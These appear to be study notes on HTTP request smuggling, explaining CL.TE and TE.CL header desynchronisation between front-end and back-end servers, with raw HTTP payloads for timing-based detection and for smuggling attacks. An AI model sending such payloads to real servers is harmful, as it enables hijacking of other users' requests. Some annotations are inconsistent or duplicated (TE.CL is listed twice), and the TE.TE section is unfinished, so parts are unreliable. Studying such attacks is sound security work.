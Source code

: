 # HTTP request smuggling

## HTTP request smuggling

### General info

* HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users.
* Request smuggling is associated to HTTP/1 requests but can also affect HTTP/2-supported websites based on their backend structure.
* Modern web apps often use chains of HTTP servers, with users sending requests to a front-end server (sometimes referred to as a load balancer or reverse proxy), which in turn forwards requests to multiple back-end servers.
* Front-end and back-end systems must agree on request boundaries to prevent ambiguous requests that attackers can exploit

### How do HTTP request smuggling vulnerabilities arise?

* HTTP request smuggling vulnerabilities often occur due to the HTTP/1 specification offering two methods to define the request's end: the `Content-Length header` and `Transfer-Encoding` header.
  * The `Content-Length header` specifies the length of the message body in bytes
  * The `Transfer-Encoding` header specify that the message body uses chunked encoding. This means that the message body contains one or more chunks of data
    * Each chunk comprises a size in hexadecimal bytes, a newline, and the chunk's content. The message concludes with a zero-sized chunk.
  * TE.CL: the front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header.
  * TE.CL: the front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header.
  * TE.TE: the front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.

```
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b
q=smuggling
0
```

### Finding HTTP request smuggling vulnerabilities

#### Finding CL.TE vulnerabilities using timing techniques

```
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Transfer-Encoding: chunked\r\n
Content-Length: 4\r\n
\r\n
1\r\n
A\r\n
X\r\n
```

The back-end server processes the first chunk using the Transfer-Encoding header, leading to an observable time delay while awaiting the next chunk.

#### Finding TE.CL vulnerabilities using timing techniques

```
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Transfer-Encoding: chunked\r\n
Content-Length: 6\r\n
\r\n
0\r\n
\r\n
X
```

* The back-end server, relying on the Content-Length header, waits for additional message body content, resulting in a noticeable time delay.
* NOTE: The timing-based test for TE.CL vulnerabilities will potentially disrupt other application users if the application is vulnerable to the CL.TE variant of the vulnerability. So to be stealthy and minimize disruption, you should use the CL.TE test first and continue to the TE.CL test only if the first test is unsuccessful.

### How to perform an HTTP request smuggling attack

#### CL.TE

```
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Length: 13\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
SMUGGLEDGET /second HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
...
```

* Content-Length: 0\r\n\r\nSMUGGLED -> 13
* SMUGGLED ES.: GET / HTTP/1.1\r\nfoo: a

#### TE.CL

```
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
2a\r\n
POST /404 HTTP/1.1\r\n
Content-Length: 9\r\n
\r\n
x\r\n
0\r\n
\r\n
```

* This post smuggled request has a body: "x" (plus the second request...)
* Content-Length: 4 -> 2a\r
* 2a -> POST /404 HTTP/1.1\r\nContent-Length: 9\r\n\r\nx
* Content-Length: 9 -> x\r\n0\r\n\r\n -> 8, but it must be at least 1 character extra in length to ensure the request gets queued on the backend

```
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
29\r\n
POST /404 HTTP/1.1\r\n
Content-Length: 8\r\n
\r\n
\r\n
0\r\n
\r\n
```

* This request doesn't contain "x" in the body (but will have the second request)
* This type of request is not very useful (use the first) but it can be useful to understand the lengths
* Content-Length: 4 -> 2a\r
* 2a -> POST /404 HTTP/1.1\r\nContent-Length: 9\r\n\r
* Content-Length: 8 -> \r\n0\r\n\r\n -> 7 + 1 = 8 (minimum)

```
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
26\r\n
GET /404 HTTP/1.1\r\n
Content-Length: 6\r\n
\r\n
0\r\n
\r\n
```

* Content-Length: 4 -> 2a\r
* 26 -> GET /404 HTTP/1.1\r\nContent-Length: 6\r
* Content-Length: 6 -> 0\r\n\r\n -> 5 + 1 = 6 (minimum)

## TE.TE

* TO DO ...
